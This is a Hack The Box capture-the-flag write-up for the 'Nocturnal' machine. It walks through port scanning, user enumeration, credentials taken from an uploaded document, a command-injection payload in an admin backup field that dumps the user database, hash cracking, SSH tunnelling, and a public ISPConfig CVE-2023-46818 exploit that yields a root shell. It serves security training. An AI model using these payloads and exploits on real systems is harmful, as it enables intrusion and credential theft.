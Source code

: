 ```yaml
---
name: Nocturnal
difficulty: easy
os: linux
platform: htb
date: 2025/07/02

img: https://labs.hackthebox.com/storage/avatars/f6a56cec6e9826b4ed124fb4155abc66.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We try to connect to the web service but redirects us to `http://nocturnal.htb`, so it is necessary to add the domain to our `/etc/hosts` file:
```bash
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

We do nmap scan with service version detection and script scanning using `-sC` and `-sV` options:
```bash
nmap -p 22,80 -sCV nocturnal.htb -o targeted
```
```
ORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 202688700851eede3aa6204187962517 (RSA)
|   256 4f800533a6d42264e9ed14e312bc96f1 (ECDSA)
|_  256 d9881f68438ed42a52fcf066d4b9ee6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Welcome to Nocturnal
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We look for directories and files in the web application using `gobuster`:
```bash
gobuster dir -u http://nocturnal.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nocturnal.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin.php            (Status: 302) [Size: 0] [--> login.php]
/backups              (Status: 301) [Size: 178] [--> http://nocturnal.htb/backups/]
/index.php            (Status: 200) [Size: 1524]
/uploads              (Status: 403) [Size: 162]
```

## User Exploitation

We can see that its posible to list users via URL:
```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf' -w /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt -mc 200 -H "Cookie: PHPSESSID=jtv19rd5dq7fs8202f2p9fgfgt" -fr "User not found."
```  
``` 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt
 :: Header           : Cookie: PHPSESSID=jtv19rd5dq7fs8202f2p9fgfgt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Regexp: User not found.
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 97ms]
amanda                  [Status: 200, Size: 3319, Words: 1178, Lines: 129, Duration: 107ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 115ms]
``` 

We can access `http://nocturnal.htb/view.php?username=amanda&file=*.pdf` and see if there are any files uploades by the user. `admin` and `tobias` have not uploaded any files.

User `amanda` has uploaded a file called `privacy.odt`. If we unzip it we can find a file called `content.xml` that contains the following credentials:
```xml
amanda:arHkG7HAI68X8s1J
```

We can use these credentials to login to the web application at `http://nocturnal.htb/login.php` and access the admin panel.

We can see its displaying source code of the web app. We can see password field is vulnerable to RCE.
We try several payloads and we find that the following payload works:
```
password=%09bash%09-c%09"<payload>"%09&backup=
```

We execute the following command to get the contents of the db
```bash
password=%09bash%09-c%09"sqlite3%09../nocturnal_database/nocturnal_database.db%09.dump"&backup=
```
```
VALUES(1,'admin','d725aeba143f575736b07e045d8ceebb');
INSERT INTO users VALUES(2,'amanda','df8b20aa0c935023f99ea58358fb63c4');
INSERT INTO users VALUES(4,'tobias','55c82b1ccd55ab219b3b109b07d5061d');
```

We use `https://crackstation.net/` to crack the hashes and we find the following credentials:
```
tobias:slowmotionapocalypse
```

We use these credentials to login via SSH:
```bash
ssh tobias@10.10.11.64
```

We find the user flag in the home directory of the user `tobias`:
```bash
cat /home/tobias/user.txt
```
```
user flag value
```

## Root Exploitation

We use `linpeas.sh` to check for privilege escalation vectors
We see there is a web service running in port 8080 which is not open outside the machine. We do a ssh tunnel to access the web service:
```bash
ssh -L 8080:localhost:8080 tobias@10.10.11.64
```

We can access the web service at `http://localhost:8080` and we are greeted with a ISP Config login page.
We can use the credentials we found earlier to login:
```
admin:slowmotionapocalypse
``` 

We can check which version of ISP Config is running by checking the footer of the page. Its version `3.2.10p1`, vulnerable to CVE-2023-46818.

We clone the exploit repository from `https://github.com/ajdumanhug/CVE-2023-46818.git` and run the exploit:
```bash
git clone https://github.com/ajdumanhug/CVE-2023-46818.git
cd CVE-2023-46818
python3 CVE-2023-46818.py http://localhost:8080 admin slowmotionapocalypse 
```

We get a reverse shell as root and we can find the root flag in the root directory:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion
This writeup details the steps taken to exploit the Nocturnal machine on Hack The Box, from initial enumeration to privilege escalation and obtaining both user and root flags. The process involved web application exploitation, user credential cracking, and leveraging a known vulnerability in ISP Config to gain root access.
This writeup serves as a guide for those looking to understand the exploitation techniques used in this machine and can be used as a reference for similar challenges in the future.
This writeup is intended for educational purposes only and should not be used for malicious activities.
